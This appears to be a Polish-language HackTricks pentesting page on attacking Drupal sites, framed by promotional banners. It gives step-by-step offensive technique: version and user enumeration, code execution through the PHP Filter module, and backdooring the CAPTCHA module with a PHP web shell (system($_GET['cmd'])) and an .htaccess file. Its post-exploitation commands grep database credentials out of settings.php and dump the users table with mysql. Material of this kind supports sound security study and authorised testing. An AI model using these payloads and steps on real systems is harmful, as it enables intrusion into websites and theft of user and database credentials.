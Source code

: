 # Drupal

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Kup [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na GitHubie.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## Odkrywanie

* Sprawdź **meta**
```bash
curl https://www.drupal.org/ | grep 'content="Drupal'
```
* **Węzeł**: Drupal **indeksuje swoją zawartość za pomocą węzłów**. Węzeł może **przechowywać wszystko**, takie jak wpis na blogu, ankieta, artykuł, itp. URI strony mają zazwyczaj formę `/node/<nodeid>`.
```bash
curl drupal-site.com/node/1
```
## Wyliczanie

Drupal obsługuje **trzy rodzaje użytkowników** domyślnie:

1. **`Administrator`**: Ten użytkownik ma pełną kontrolę nad stroną internetową Drupal.
2. **`Użytkownik uwierzytelniony`**: Ci użytkownicy mogą zalogować się na stronie internetowej i wykonywać operacje, takie jak dodawanie i edytowanie artykułów, w zależności od ich uprawnień.
3. **`Anonimowy`**: Wszyscy odwiedzający stronę internetową są oznaczeni jako anonimowi. Domyślnie tym użytkownikom wolno tylko czytać posty.

### Wersja

* Sprawdź `/CHANGELOG.txt`
```bash
curl -s http://drupal-site.local/CHANGELOG.txt | grep -m2 ""

Drupal 7.57, 2018-02-21
```
{% hint style="info" %}
Nowe instalacje Drupal domyślnie blokują dostęp do plików `CHANGELOG.txt` i `README.txt`.
{% endhint %}

### Wyliczanie nazwy użytkownika

#### Rejestracja

W _/user/register_ spróbuj utworzyć nazwę użytkownika, a jeśli nazwa jest już zajęta, zostaniesz poinformowany:

![](<../../.gitbook/assets/image (328).png>)

#### Żądanie nowego hasła

Jeśli żądasz nowego hasła dla istniejącej nazwy użytkownika:

![](<../../.gitbook/assets/image (903).png>)

Jeśli żądasz nowego hasła dla nieistniejącej nazwy użytkownika:

![](<../../.gitbook/assets/image (307).png>)

### Pobierz liczbę użytkowników

Odwiedzając _/user/\<number>_ możesz zobaczyć liczbę istniejących użytkowników, w tym przypadku jest 2, ponieważ _/users/3_ zwraca błąd not found:

![](<../../.gitbook/assets/image (333).png>)

![](<../../.gitbook/assets/image (227) (1) (1) (1).png>)

### Ukryte strony

**Fuzz `/node/$`, gdzie `$` to liczba** (od 1 do 500 na przykład).\
Możesz znaleźć **ukryte strony** (testowe, deweloperskie), które nie są indeksowane przez wyszukiwarki.

#### Informacje o zainstalowanych modułach
```bash
#From https://twitter.com/intigriti/status/1439192489093644292/photo/1
#Get info on installed modules
curl https://example.com/config/sync/core.extension.yml
curl https://example.com/core/core.services.yml

# Download content from files exposed in the previous step
curl https://example.com/config/sync/swiftmailer.transport.yml
```
### Automatyczne
```bash
droopescan scan drupal -u http://drupal-site.local
```
## RCE

### Z modułem PHP Filter

{% hint style="warning" %}
W starszych wersjach Drupal **(przed wersją 8)** było możliwe zalogowanie się jako administrator i **włączenie modułu `PHP filter`**, który "Umożliwia ocenianie osadzonego kodu PHP/skrótów."
{% endhint %}

Musisz mieć zainstalowany **plugin php** (sprawdź to przechodząc do _/modules/php_ i jeśli zwraca **403**, to **istnieje**, jeśli **nie znaleziono**, to **plugin php nie jest zainstalowany**)

Przejdź do _Modules_ -> (**Sprawdź**) _PHP Filter_ -> _Zapisz konfigurację_

![](<../../.gitbook/assets/image (247) (1).png>)

Następnie kliknij _Dodaj zawartość_ -> Wybierz _Podstawowa strona_ lub _Artykuł_ -> Napisz _kod php shellcode w treści_ -> Wybierz _Kod PHP_ w _Format tekstu_ -> Wybierz _Podgląd_

![](<../../.gitbook/assets/image (338).png>)

Na koniec po prostu przejdź do nowo utworzonego węzła:
```bash
curl http://drupal-site.local/node/3
```
### Zainstaluj moduł PHP Filter

Od wersji **8 i nowszych**, [**moduł PHP Filter**](https://www.drupal.org/project/php/releases/8.x-1.1) **nie jest instalowany domyślnie**. Aby skorzystać z tej funkcjonalności, musimy **zainstalować moduł samodzielnie**.

1. Pobierz najnowszą wersję modułu ze strony internetowej Drupal.
1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. Po pobraniu przejdź do **`Administracja`** > **`Raporty`** > **`Dostępne aktualizacje`**.
3. Kliknij **`Przeglądaj`**, wybierz plik z katalogu, do którego go pobraliśmy, a następnie kliknij **`Zainstaluj`**.
4. Po zainstalowaniu modułu możemy kliknąć **`Zawartość`** i **utworzyć nową podstawową stronę**, podobnie jak w przykładzie dla Drupal 7. Ponownie upewnij się, że **wybrano `Kod PHP` z rozwijanej listy `Format tekstu`**.

### Moduł z tylnymi drzwiami

Moduł z tylnymi drzwiami można stworzyć poprzez **dodanie powłoki do istniejącego modułu**. Moduły można znaleźć na stronie drupal.org. Wybierzmy moduł, na przykład [CAPTCHA](https://www.drupal.org/project/captcha). Przewiń w dół i skopiuj link do archiwum [tar.gz](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Pobierz archiwum i wypakuj jego zawartość.
```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* Utwórz **PHP web shell** o następującej zawartości:
```php
<?php
system($_GET["cmd"]);
?>
```
* Następnie musimy utworzyć plik **`.htaccess`**, aby uzyskać dostęp do folderu. Jest to konieczne, ponieważ Drupal odmawia bezpośredniego dostępu do folderu **`/modules`**.
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* Powyższa konfiguracja będzie stosować reguły dla folderu /, gdy żądamy pliku w /modules. Skopiuj oba te pliki do folderu captcha i utwórz archiwum.
```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* Zakładając, że mamy **dostęp administracyjny** do strony internetowej, kliknij **`Zarządzaj`**, a następnie **`Rozszerzenia`** w pasku bocznym. Następnie kliknij przycisk **`+ Zainstaluj nowy moduł`**, i zostaniemy przeniesieni do strony instalacji, na przykład `http://drupal-site.local/admin/modules/install`. Przejdź do zainfekowanego archiwum Captcha i kliknij **`Zainstaluj`**.
* Po udanej instalacji, przejdź do **`/modules/captcha/shell.php`** aby wykonywać polecenia.

## Po Wykorzystaniu

### Odczytaj settings.php
```
find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null
```
### Wyciek użytkowników z bazy danych
```
mysql -u drupaluser --password='2r9u8hu23t532erew' -e 'use drupal; select * from users'
```
## Odnośniki

* [https://academy.hackthebox.com/module/113/section/1209](https://academy.hackthebox.com/module/113/section/1209)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
